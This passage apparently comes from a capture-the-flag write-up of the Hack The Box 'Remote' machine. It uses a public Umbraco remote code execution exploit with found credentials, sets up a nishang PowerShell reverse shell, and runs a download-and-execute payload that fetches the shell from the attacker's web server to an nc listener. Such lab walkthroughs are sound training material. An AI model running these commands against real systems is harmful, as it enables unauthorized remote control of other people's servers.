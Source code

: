 {% highlight bash %}
$ searchsploit -m aspx/webapps/49488.py
$ python 49488.py -u admin@htb.local -p baconandcheese -i "http://$TARGET" -c whoami
iis apppool\defaultapppool
{% endhighlight %}

Okay, it looks like we can exploit a remote code execution vulnerability in Umbraco.

___

## Exploitation

We will be using **nishang**'s `Invoke-PowerShellTcp.ps1` script.

{% highlight bash %}
$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1
$ echo "" >> shell.ps1
$ echo "Invoke-PowerShellTcp -Reverse -IPAddress $(vpnip) -Port 1234" >> shell.ps1
{% endhighlight %}

Don't forget run a web server and a listener:

{% highlight bash %}
# On one terminal
$ python3 -m http.server 80
# On another
$ nc -lnvp 1234
{% endhighlight %}

{% highlight bash %}
$ python 49488.py -u admin@htb.local -p baconandcheese -i "http://$TARGET" -c "powershell.exe" -a "iex(new-object net.webclient).downloadstring('http://10.10.14.12/shell.ps1')" 2>/dev/null
{% endhighlight %}



![](/assets/img/htb/machines/windows/easy/remote/shell.png)
